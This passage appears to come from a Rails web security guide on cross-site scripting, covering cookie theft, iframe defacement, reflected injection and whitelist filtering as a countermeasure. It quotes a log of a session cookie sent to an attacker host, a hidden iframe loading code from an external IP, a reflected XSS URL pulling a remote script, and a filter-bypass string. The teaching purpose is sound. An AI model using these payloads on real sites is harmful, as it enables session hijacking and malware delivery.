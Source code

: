 The log files on www.attacker.com will read like this:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

You can mitigate these attacks (in the obvious way) by adding the **httpOnly** flag to cookies, so that document.cookie may not be read by JavaScript. HTTP only cookies can be used from IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4, and Chrome 1.0.154 onwards. But other, older browsers (such as WebTV and IE 5.5 on Mac) can actually cause the page to fail to load. Be warned that cookies [will still be visible using Ajax](https://www.owasp.org/index.php/HTTPOnly#Browsers_Supporting_HttpOnly), though.

##### Defacement

With web page defacement an attacker can do a lot of things, for example, present false information or lure the victim on the attackers web site to steal the cookie, login credentials, or other sensitive data. The most popular way is to include code from external sources by iframes:

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

This loads arbitrary HTML and/or JavaScript from an external source and embeds it as part of the site. This iframe is taken from an actual attack on legitimate Italian sites using the [Mpack attack framework](http://isc.sans.org/diary.html?storyid=3015). Mpack tries to install malicious software through security holes in the web browser - very successfully, 50% of the attacks succeed.

A more specialized attack could overlap the entire web site or display a login form, which looks the same as the site's original, but transmits the user name and password to the attacker's site. Or it could use CSS and/or JavaScript to hide a legitimate link in the web application, and display another one at its place which redirects to a fake web site.

Reflected injection attacks are those where the payload is not stored to present it to the victim later on, but included in the URL. Especially search forms fail to escape the search string. The following link presented a page which stated that "George Bush appointed a 9 year old boy to be the chairperson...":

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### Countermeasures

_It is very important to filter malicious input, but it is also important to escape the output of the web application_.

Especially for XSS, it is important to do _whitelist input filtering instead of blacklist_. Whitelist filtering states the values allowed as opposed to the values not allowed. Blacklists are never complete.

Imagine a blacklist deletes "script" from the user input. Now the attacker injects "&lt;scrscriptipt&gt;", and after the filter, "&lt;script&gt;" remains. Earlier versions of Rails used a blacklist approach for the strip_tags(), strip_links() and sanitize() method. So this kind of injection was possible:

```ruby
strip_tags("some<<b>script>alert('hello')<</b>/script>")
```
